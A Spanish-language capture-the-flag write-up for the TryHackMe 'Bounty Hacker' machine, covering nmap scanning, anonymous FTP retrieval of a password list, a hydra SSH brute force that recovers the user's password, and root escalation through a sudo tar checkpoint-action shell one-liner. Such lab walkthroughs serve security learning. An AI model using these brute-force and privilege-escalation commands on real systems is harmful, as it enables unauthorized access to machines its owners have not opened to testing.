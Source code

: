 ```yaml
---
title: '[THM] Bounty Hacker'
date: 2023-01-10 13:30 PM
categories: [Machines, THM]
tags: [easy, linux, machines, ftp, curso, hydra]
permalink: /:categories/:title
img_path: /assets/img/machines/thm/bountyhacker
---
```


![banner](banner.png)

## Enumeration

### NMAP

Como siempre iniciamos la máquina identificando puertos abiertos y servicios expuestos en la red.

```console
Nmap scan report for 10.10.207.103
Host is up (0.28s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (conn-refused)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
|_-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.46.198
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dcf8dfa7a6006d18b0702ba5aaa6143e (RSA)
|   256 ecc0f2d91e6f487d389ae3bb08c40cc9 (ECDSA)
|_  256 a41a15a5d4b1cf8f16503a7dd0d813c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

> Encontramos un ftp, ssh y apache.


## Foothold

### FTP

Comenzamos por el FTP ya que gracias a los script por defecto de *nmap* se ha podido ver que tiene habilitado el acceso por "anonymous". También se puede observar que hay dos archivos en su interior, los cuales vamos a descargar.

```console
$ ftp anonymous@10.10.207.103
Connected to 10.10.207.103.
220 (vsFTPd 3.0.3)
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
100% |************************************************************************************************************************************************|   418        1.12 MiB/s    00:00 ETA
226 Transfer complete.
418 bytes received in 00:00 (5.06 KiB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
100% |************************************************************************************************************************************************|    68       88.89 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.85 KiB/s)
ftp> exit
221 Goodbye.
```

Los archivos contenian lo siguiente:

```shell
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
{: file="task.txt" }

```shell
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```
{: file="locks.txt" }

> Aquí vemos algo que podemos dar por hecho que es un diccionario.

### SSH

Usando *hydra* le daremos uso al archivo *locks.txt* que encontramos en el ftp anterior. Haremos fuerza bruta usando este archivo como diccionario y especificando el usuario *lin*.

```console
$ hydra -l lin -P locks.txt 10.10.207.103 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-10 13:35:08
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.207.103:22/
[22][ssh] host: 10.10.207.103   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
```

Una vez obtenida la contraseña iniciamos por ssh. Ya tendremos la flag de **USER**

```console
$ ssh lin@10.10.207.103 
lin@10.10.207.103's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Tue Jan 10 06:07:43 2023 from 10.8.46.198
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{**********}
```

## Privilege Escalation

Lo primero que se hace al iniciar una escalada es `sudo -l` para ver que se puede usar como root. En este caso encontramos */bin/tar*.

```console
lin@bountyhacker:~$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

Consultando [GTFOBins](https://gtfobins.github.io/gtfobins) vemos que se puede aprovechar que tar se ejecute como root usando el siguiente comando.

`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

Una vez hecho esto ya seremos *root*.

```console
lin@bountyhacker:~$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# cd /root
cd: not found
# cd /root
# cat root.txt
THM{**********}
```

## Conclusion

Iniciación a máquinas vulnerables. 

### Techniques and Tools

1. nmap
2. hydra
3. PE (Privilege Escalation)

